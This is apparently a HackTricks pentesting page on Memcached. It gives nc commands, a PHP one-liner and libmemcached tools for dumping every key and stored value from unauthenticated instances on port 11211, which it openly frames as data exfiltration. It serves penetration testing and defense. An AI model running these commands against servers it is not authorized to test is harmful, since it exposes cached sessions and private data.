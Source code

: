 # 11211 - Pentesting Memcache

<details><summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## Protocol Information

**Memcached** (pronunciation: mem-cashed, mem-cash-dee) is a general-purpose distributed [memory caching](https://en.wikipedia.org/wiki/Memory\_caching) system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API) must be read. (From [wikipedia](https://en.wikipedia.org/wiki/Memcached))\
Although Memcached supports SASL, most instances are **exposed without authentication**.

**Default port:** 11211

```
PORT      STATE SERVICE
11211/tcp open  unknown
```

## Enumeration

### Manual

To ex-filtrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Ex-filtrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and disappearing**.

```bash
echo "version" | nc -vn -w 1 <IP> 11211      #Get version
echo "stats" | nc -vn -w 1 <IP> 11211        #Get status
echo "stats slabs" | nc -vn -w 1 <IP> 11211  #Get slabs
echo "stats items" | nc -vn -w 1 <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'
```

### Manual2

```bash
sudo apt install libmemcached-tools
memcstat --servers=127.0.0.1 #Get stats
memcdump --servers=127.0.0.1 #Get all items
memccat  --servers=127.0.0.1 <item1> <item2> <item3> #Get info inside the item(s)
```
